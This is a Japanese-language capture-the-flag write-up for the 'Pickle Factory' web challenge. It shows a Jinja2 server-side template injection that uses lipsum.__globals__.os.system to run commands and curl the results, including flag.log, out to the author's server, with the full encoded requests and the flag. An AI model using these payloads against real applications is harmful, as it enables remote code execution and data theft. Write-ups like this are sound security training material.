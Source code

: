 # Pickle Factory:Web:50pts
My cousin said he once got fired for putting his p*ckle into the pickle slicer at his old workplace. Can you confirm that it's true for me?  
Note: flag lives on the local filesystem  

[http://pickle-factory.ctf.maplebacon.org](http://pickle-factory.ctf.maplebacon.org/)  

[pickle-factory.zip](pickle-factory.zip)  

# Solution
URLとソースが渡される。  
アクセスすると、コードを送信するものと過去に投稿されたpicklesを見る二つのフォームがある。  
Pickle Factory  
![site1.png](site/site1.png)  
試しに`print(1)`などをコードとして送ってみるが、Invalid JSONと怒られる。  
JSONである必要がありそうなので、`{"Test":"Satoki"}`を送信すると`766f2d13ace543c3eb0a9cffb03963b1`とUUIDが表示された。  
これをpicklesを見るフォームから送信すると、以下の結果が表示された。  
![site2.png](site/site2.png)  
`Test`や`Satoki`を含むバイト文字列とハートが表示されたが、意味が分からないのでソースを見ると以下の通りであった。  
```python
~~~
from jinja2 import Environment
~~~
            large_template = """
    <!DOCTYPE html>
    <html>
        <head>
            <title> Your Pickle </title>
            <style>
                html * {
                    font-size: 12px;
                    line-height: 1.625;
                    font-family: Consolas; }
            </style>
        </head>
        <body>
            <code> """ + str(pickles[uid]) + """ </code>
            <h2> Sample good: </h2>
            {% if True %}
            {% endif %}
            {{space*59}}
            {% if True %}
            {% endif %}
            {{space*6+filler*5+space*48}}
            {% if True %}
            {% endif %}
            {{space*4+filler*15+space*27+filler*8+space*5}}
            {% if True %}
~~~
def render_template_string_sanitized(env, template, **args):
    # it works!
    global_vars = ['self', 'config', 'request', 'session', 'g', 'app']
    for var in global_vars:
        template = "{% set " + var + " = None %}\n" + template
    return env.from_string(template).render(**args)
~~~
```
ユーザ入力を含んだテンプレートからページ内容を生成しているが、ブラックリストがあるようだ。  
フラグがファイルにあることからも、SSTIを狙えばよいとわかる。  
ブラックリストに無いもので`lipsum.__globals__.os.system(cmd)`のRCEテクニックが知られている。  
コードとして以下のJSONを送り、UUIDよりpicklesを見てやると、待ち受けた自身のサーバにコマンドの実行結果を含むリクエストが届く。  
```
{"Test":"{{ lipsum.__globals__.os.system('curl https://[自身のサーバ]/?s=`[コマンド]`') }}"}
```
まずは`ls|base64`でファイルを探してやる(適当にパーセントエンコーディングしている)。  
```bash
$ curl -X POST http://pickle-factory.ctf.maplebacon.org/create-pickle -d 'code=%7B%22Test%22%3A%22%7B%7B+lipsum.__globals__.os.system%28%27curl+https%3A%2F%2F[自身のサーバ]%2F%3Fs%3D%60ls%7Cbase64%60%27%29+%7D%7D%22%7D'
332771efba6e962708f901cc984b2520
$ curl http://pickle-factory.ctf.maplebacon.org/view-pickle?uid=332771efba6e962708f901cc984b2520
~~~
            <code> b"\x80\x04\x95m\x00\x00\x00\x00\x00\x00\x00}\x94\x8c\x04Test\x94\x8c_0\x94s." </code>
~~~
```
すると自身のサーバには以下が届いた。  
```
GET
/?s=RG9ja2VyZmlsZQphcHAucHkKZmxhZy5sb2cKcmVxdWlyZW1lbnRzLnR4dAp0ZW1wbGF0ZXMK
```
以下の通りデコードする。  
```bash
$ echo 'RG9ja2VyZmlsZQphcHAucHkKZmxhZy5sb2cKcmVxdWlyZW1lbnRzLnR4dAp0ZW1wbGF0ZXMK' | base64 -d
Dockerfile
app.py
flag.log
requirements.txt
templates
```
明らかに`flag.log`が怪しいので自身のサーバにファイルをPOSTするコードを以下の通りに作成する。  
```
{"Test":"{{ lipsum.__globals__.os.system('curl -X POST -F file=@flag.log https://[自身のサーバ]') }}"}
```
これを送信後に、picklesを見てやればよい。  
```bash
$ curl -X POST http://pickle-factory.ctf.maplebacon.org/create-pickle -d 'code=%7B%22Test%22%3A%22%7B%7B+lipsum.__globals__.os.system%28%27curl+-X+POST+-F+file%3D%40flag.log+https%3A%2F%2F[自身のサーバ]%27%29+%7D%7D%22%7D'
798bfc2a4f2560db60da8fd045a89b9e
$ curl http://pickle-factory.ctf.maplebacon.org/view-pickle?uid=798bfc2a4f2560db60da8fd045a89b9e
~~~
            <code> b"\x80\x04\x95x\x00\x00\x00\x00\x00\x00\x00}\x94\x8c\x04Test\x94\x8cj0\x94s." </code>
~~~
```
すると自身のサーバに以下のリクエストが届く。  
```
POST
/
--------------------------a16969fc16182c11
Content-Disposition: form-data; name="file"; filename="flag.log"
Content-Type: application/octet-stream

Employee Termination Form
Date: 2022/06/09
Name of Terminated Employee: XXXX
Address: XXXXXXXX
Reason: Stuck his pickle into the pickle slicer. maple{he_was_fired_and_so_was_she}

--------------------------a16969fc16182c11--
```
flagが書かれていた。  

## maple{he_was_fired_and_so_was_she}